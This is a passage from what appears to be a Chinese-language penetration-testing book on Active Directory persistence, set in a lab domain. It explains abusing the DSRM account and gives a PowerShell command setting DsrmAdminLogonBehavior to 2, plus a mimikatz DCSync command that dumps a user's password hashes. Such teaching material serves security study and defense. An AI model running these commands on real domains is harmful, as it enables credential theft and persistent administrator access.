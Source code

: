 图 7.36 – DSRM 密码重置和同步场景

我们可以通过转储并比较用户哈希来确认同步是否成功：

![图 7.37 – DSRM 密码已与 jaime.lannister 账户的密码同步](img/B18964_07_37.jpg)

图 7.37 – DSRM 密码已与 jaime.lannister 账户的密码同步

使用 DSRM 密码登录时，有三种可能的场景。在域管理员权限下，攻击者可以通过将**HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior**中的注册表键值设置为以下之一，强制选择所需的选项：

+   **0（默认值）**：只有当域控制器处于 DSRM 模式时，才允许登录

+   **1**：只有在停止目录服务时才允许登录

+   **2**：可以自由登录，没有任何限制

使用 PowerShell，攻击者将把注册表值设置为**2**：

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

然后，攻击者将执行哈希传递攻击，以域控制器的本地管理员身份启动 Shell，并运行 DCSync 攻击：

```
mimikatz.exe "lsadump::dcsync /domain:sevenkingdoms.local /dc:kingslanding /user:robert.baratheon /csv"
```

这里演示了 DCSync 的结果：

![图 7.38 – 来自 DSRM 登录会话的 DCSync 结果](img/B18964_07_38.jpg)

